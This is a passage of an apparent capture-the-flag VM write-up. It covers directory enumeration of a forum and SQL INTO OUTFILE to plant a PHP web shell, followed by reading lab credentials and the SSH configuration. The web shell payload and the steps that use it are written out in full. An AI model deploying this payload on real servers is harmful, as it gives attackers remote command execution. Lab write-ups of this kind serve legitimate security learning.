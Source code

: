 ```shell
==> DIRECTORY: https://<NETWORK-IP2>/forum/lang/
==> DIRECTORY: https://<NETWORK-IP2>/forum/modules/
==> DIRECTORY: https://<NETWORK-IP2>/forum/templates_c/
==> DIRECTORY: https://<NETWORK-IP2>/forum/themes/
==> DIRECTORY: https://<NETWORK-IP2>/forum/update/

-----------------
END_TIME: Sun Jan 23 20:16:28 2022
DOWNLOADED: 4612 - FOUND: 2
```

Now that we have some potential candidates for our upload, let's try it. We head to the SQL tab and enter the following...

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

> We find that `/forum/templates_c` is the only folder where this can be written. This basically create an HTML page with a textbox. When you click on the **Submit** button the input is evaluated directly in the shell where the website is hosted.

We now have a shell in the working directory `/forum/templates_c`, we are logged as `www-data`. After listing a few directories, we find `/home/LOOKATME/password` that gives us the credentials pair `lmezard:G!@M6f4Eatau{sF"`.

## First user, `lmezard`.

We can log into the vVM directly but not via ssh due to some SSH configuration. We can confirm this via the webshell by checking the file `/etc/ssh/sshd_config` where the current host ssh configuration is located.

```shell
  $> cat /etc/ssh/sshd_config
  ...
  RSAAuthentication yes
  PubkeyAuthentication yes
  #AuthorizedKeysFile     %h/.ssh/authorized_keys
  AllowUsers ft_root zaz thor laurie
  #DenyUsers *
  ...
```

> As it is stated in [sshd configuration](https://linux.die.net/man/5/sshd_config) documentation, `AllowUsers` option is listing all the users that can use ssh to remotely connect to the machine, `lmezard` is not one of them.

Once logged in the VM we can find two files in her home directory, a `README` file and a binary called `fun`.

```shell
  $> cat README
  Complete this little challenge and use the result as password for user 'laurie' to login with ssh
  $> file fun
  fun: POSIX tar archive (GNU)
```
